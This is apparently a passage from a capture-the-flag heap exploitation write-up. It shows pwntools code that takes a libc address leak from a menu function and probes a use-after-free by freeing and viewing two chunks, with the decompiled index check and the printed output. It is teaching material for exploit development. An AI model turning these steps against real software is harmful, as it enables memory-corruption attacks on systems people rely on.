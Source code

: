 ## Exploit

### Libc leak

Getting a libc leak can be a challenge, but this time all we have to do is call `6` in the menu for the `leak()` function and catch the output:

```python
Leak()
free_leak = int(io.recvline().strip(),10);
libc.address = free_leak - libc.sym.free
log.info(f"Libc @ { hex(libc.address) }")
```

Output:

```
[*] Libc @ 0x7ffff7d8f000
```

### Trying to break things

Checking out the `getIdx` function we see something interesting. We can only get index 0 or 1
So we only get access to two chunks of memory at a time.

```c
int getIdx(void)
{
  int idx = readNum("index: ");
  if ((1 < idx) || (idx < 0)) {
    puts("out of range.");
    idx = 0;
  }
  return idx;
}
```

Let's explore the `use after free` route and try to allocate, free and view chunks in these two positions:

```python
Malloc(0)
Malloc(1)
Free(0)
Free(1)
View(0)
value_0 = u64(io.recvline().strip().ljust(8,b'\0'))
View(1)
value_1 = u64(io.recvline().strip().ljust(8,b'\0'))
log.info(f"Value_0: { hex(value_0)}")
log.info(f"Value_1: { hex(value_1)}")
```

Output: 
```
[*] Value_0: 0x555555559
[*] Value_1: 0xc7f9
```
